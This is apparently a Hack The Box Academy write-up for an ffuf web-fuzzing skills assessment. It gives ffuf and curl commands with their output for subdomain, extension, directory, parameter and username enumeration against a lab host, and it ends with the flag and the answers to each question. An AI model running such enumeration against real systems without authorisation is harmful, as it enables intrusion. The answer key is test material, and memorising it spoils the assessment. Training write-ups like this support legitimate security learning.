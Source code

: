 # [Attacking Web Applications with Ffuf](https://academy.hackthebox.com/module/details/54)

## Skills Assessment

You are given an online academy's IP address but have no further information about their website. As the first step of conducting a Penetration Test, you are expected to locate all pages and domains linked to their IP to enumerate the IP and domains properly.

Finally, you should do some fuzzing on pages you identify to see if any of them has any parameters that can be interacted with. If you do find active parameters, see if you can retrieve any data from them.

### Questions

#### Question #01

**Question**

Run a sub-domain/vhost fuzzing scan on `*.academy.htb` for the IP shown above. What are all the sub-domains you can identify? (Only write the sub-domain name)

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ echo -e '94.237.123.50\tacademy.htb' | sudo tee -a /etc/hosts

94.237.123.50	academy.htb
```

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:50460/ -H 'Host: FUZZ.academy.htb' -fs 985

[SNIP]

test                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 19ms]
archive                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 17ms]
faculty                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 16ms]

[SNIP]
```

**Answer**

```
test, archive, faculty
```

#### Question #02

**Question**

Before you run your page fuzzing scan, you should first run an extension fuzzing scan. What are the different extensions accepted by the domains?

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ echo -e '94.237.123.50\ttest.academy.htb archive.academy.htb faculty.academy.htb' | sudo tee -a /etc/hosts

94.237.123.50	test.academy.htb archive.academy.htb faculty.academy.htb
```

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:50460/indexFUZZ

[SNIP]

.phps                   [Status: 403, Size: 287, Words: 20, Lines: 10, Duration: 16ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4677ms]
.php7                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4679ms]

[SNIP]
```

**Answer**

```
php, phps, php7
```

#### Question #03

**Question**

One of the pages you will identify should say 'You don't have access!'. What is the full page URL?
 
```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:50460/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -v -fs 287 -t 100 -ic

[SNIP]

[INFO] Starting queued job on target: http://faculty.academy.htb:50460/courses/FUZZ

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 17ms]
| URL | http://faculty.academy.htb:50460/courses/
    * FUZZ: 

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
| URL | http://faculty.academy.htb:50460/courses/index.php
    * FUZZ: index.php

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
| URL | http://faculty.academy.htb:50460/courses/index.php7
    * FUZZ: index.php7

[Status: 200, Size: 774, Words: 223, Lines: 53, Duration: 17ms]
| URL | http://faculty.academy.htb:50460/courses/linux-security.php7
    * FUZZ: linux-security.php7

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ curl http://faculty.academy.htb:50460/courses/linux-security.php7

  <div class='center'><p>You don't have access!</p></div>

[SNIP]
```

**Answer**

```
http://faculty.academy.htb:PORT/courses/linux-security.php7
```

#### Question #04

**Question**

In the page from the previous question, you should be able to find multiple parameters that are accepted by the page. What are they?
 
```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50460/courses/linux-security.php7?FUZZ=key -fs 774 -t 100

[SNIP]

user                    [Status: 200, Size: 780, Words: 223, Lines: 53, Duration: 16ms]

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:50460/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774 -t 100

[SNIP]

user                    [Status: 200, Size: 780, Words: 223, Lines: 53, Duration: 16ms]
username                [Status: 200, Size: 781, Words: 223, Lines: 53, Duration: 17ms]

[SNIP]
```

**Answer**

```
user, username
```

#### Question #05

**Question**

Try fuzzing the parameters you identified for working values. One of them should return a flag. What is the content of the flag?
 
```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:50460/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781 -t 100

[SNIP]

harry                   [Status: 200, Size: 773, Words: 218, Lines: 53, Duration: 16ms]

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.14.13]─[htb-ac-1461567@htb-frlhcebehe]─[~]
└──╼ [★]$ curl http://faculty.academy.htb:50460/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded'

[SNIP]

<div class='center'><p>HTB{w3b_fuzz1n6_m4573r}</p></div>

[SNIP]
```

**Answer**

```
HTB{w3b_fuzz1n6_m4573r}
```

---
---
